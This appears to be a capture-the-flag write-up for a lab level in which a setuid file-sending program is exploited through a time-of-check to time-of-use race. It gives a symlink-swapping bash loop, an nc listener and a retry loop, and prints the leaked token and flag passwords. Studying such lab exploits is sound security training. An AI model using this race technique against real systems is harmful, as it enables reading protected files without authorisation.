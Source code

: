 ## FLAG: `s5cAJpM8ev6XHw998pRWG728z`

> ls -l
```
    total 16
    -rwsr-sr-x+ 1 flag10 level10 10817 Mar  5  2016 level10
    -rw-------  1 flag10 flag10     26 Mar  5  2016 token
```

> ./level10
```
    ./level10 file host
            sends file to host if you have access to it
```

> ./level10 token 127.0.0.1
```
    You don't have access to token
```

> echo "Hey" > /tmp/test10
> ./level10 /tmp/test10 127.0.0.1
```
    Connecting to localhost:6969 .. Unable to connect to host localhost
```

> ltrace ./level10 /tmp/test10 127.0.0.1
```
    __libc_start_main(0x80486d4, 3, 0xbffff7d4, 0x8048970, 0x80489e0 <unfinished ...>
    access("/tmp/test10", 4)                                                                     = 0
    printf("Connecting to %s:6969 .. ", "localhost")                                             = 32
    fflush(0xb7fd1a20Connecting to localhost:6969 .. )                                                                           = 0
    socket(2, 1, 0)                                                                              = 3
    inet_addr("localhost")                                                                       = 0xffffffff
    htons(6969, 1, 0, 0, 0)                                                                      = 14619
    connect(3, 0xbffff71c, 16, 0, 0)                                                             = -1
    printf("Unable to connect to host %s\n", "localhost"Unable to connect to host localhost
    )                                        = 36
    exit(1 <unfinished ...>
    +++ exited (status 1) +++
```

> nm -u level10
```
    w _Jv_RegisterClasses
    U __errno_location@@GLIBC_2.0
    w __gmon_start__
    U __libc_start_main@@GLIBC_2.0
    U __stack_chk_fail@@GLIBC_2.4
    U access@@GLIBC_2.0
    U connect@@GLIBC_2.0
    U exit@@GLIBC_2.0
    U fflush@@GLIBC_2.0
    U htons@@GLIBC_2.0
    U inet_addr@@GLIBC_2.0
    U open@@GLIBC_2.0
    U printf@@GLIBC_2.0
    U puts@@GLIBC_2.0
    U read@@GLIBC_2.0
    U socket@@GLIBC_2.0
    U strerror@@GLIBC_2.0
    U write@@GLIBC_2.0
```

> man access
```
    Warning: Using access() to check if a user is authorized to, for example, open a file before actually doing so using open(2) creates a secu‐
    rity hole, because the user might exploit the short time interval between checking and opening the file to manipulate it.  For this  reason,
    the  use  of  this  system  call  should be avoided.  (In the example just described, a safer alternative would be to temporarily switch the
    process's effective user ID to the real ID and then call open(2).)
```
## This is exactly the case for this program
## And this is called a Time-of-check to time-of-use bug (TOCTOU)

> vi /tmp/10_toctou.sh
```
#!/bin/bash

echo " ( Test 10 ) " > /tmp/10_linked

while true
do
        ln -sf /tmp/10_linked /tmp/10_symlink
        ln -sf /home/user/level10/token /tmp/10_symlink
done
```
> chmod +x /tmp/10_toctou.sh
> /tmp/10_toctou.sh &
> nc -lk 6969 | grep -v ".*( )*." &
> while true; do ./level10 /tmp/10_symlink 127.0.0.1; done &>/dev/null
```
    woupa2yuojeeaaed06riuj63c
```

## Kill process for the sake of it
> ps 
> kill PID

> su flag10
> getflag
```
    feulo4b72j7edeahuete3no7c
```
